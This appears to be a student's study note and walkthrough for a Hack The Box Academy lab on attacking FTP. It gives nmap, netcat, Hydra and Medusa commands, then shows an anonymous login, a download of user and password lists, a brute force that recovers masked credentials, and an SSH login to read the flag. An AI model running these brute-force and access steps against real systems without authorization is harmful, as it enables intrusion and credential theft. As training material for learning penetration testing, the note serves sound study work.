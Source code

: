 [Attacking FTP](https://academy.hackthebox.com/module/116/section/1165)

### Connecting to the FTP server using the ftp client:
```
ftp $TARGET_IP
```
### Connecting to the FTP server using netcat:
```
nc -v $TARGET_IP $PORT
```
### Brute Forcing the FTP service with Hydra:
```
hydra -L users.list -P /usr/share/wordlists/rockyou.txt ftp://$TARGET_IP
```
```
hydra -l $USERNAME -P /usr/share/wordlists/rockyou.txt ftp://$TARGET_IP
```
#### Brute Forcing with Medusa:
```
medusa -u $USERNAME -P /usr/share/wordlists/rockyou.txt -h $TARGET_IP -M ftp
```


## Questions:
1. What port is the FTP service running on? 

```
sudo nmap -sV -sC $TARGET_IP -Pn
```

<img src="https://github.com/saramazal/ethical-hacking-study/blob/main/HackTheBoxAcademy/CPTS/Attacking-Common-Services/FTP/ftp-nmap-scan.png">

2. What username is available for the FTP server? 

```
wget -m --no-passive ftp://anonymous:anonymous@10.129.203.6 -Pn
```
or
```
ftp 10.129.203.6 -p 2121
Connected to 10.129.203.6.
220 ProFTPD Server (InlaneFTP) [10.129.203.6]
Name (10.129.203.6:root): anonymous
331 Anonymous login ok, send your complete email address as your password
Password: 
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||55278|)
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 ftp      ftp          1959 Apr 19  2022 passwords.list
-rw-rw-r--   1 ftp      ftp            72 Apr 19  2022 users.list
226 Transfer complete
ftp> mget *
mget passwords.list [anpqy?]? y
229 Entering Extended Passive Mode (|||43085|)
150 Opening BINARY mode data connection for passwords.list (1959 bytes)
  1959        1.31 MiB/s 
226 Transfer complete
1959 bytes received in 00:00 (174.85 KiB/s)
mget users.list [anpqy?]? y
229 Entering Extended Passive Mode (|||7181|)
150 Opening BINARY mode data connection for users.list (72 bytes)
    72       30.43 KiB/s 
226 Transfer complete
72 bytes received in 00:00 (6.39 KiB/s)
ftp> 
```

```
hydra -L users.list -P passwords.list  ftp://10.129.203.6:2121 -V
```
 `
  [2121][ftp] host: 10.129.203.6   login: r****   password: 7iz***********7
`


3. Use the discovered username with its password to login via SSH and obtain the flag.txt file. Submit the contents as your answer. 

```
ssh $username@$TARGET_IP
```

`ls`

`cat flag.txt`


## HTB{ ATT******_********C3}
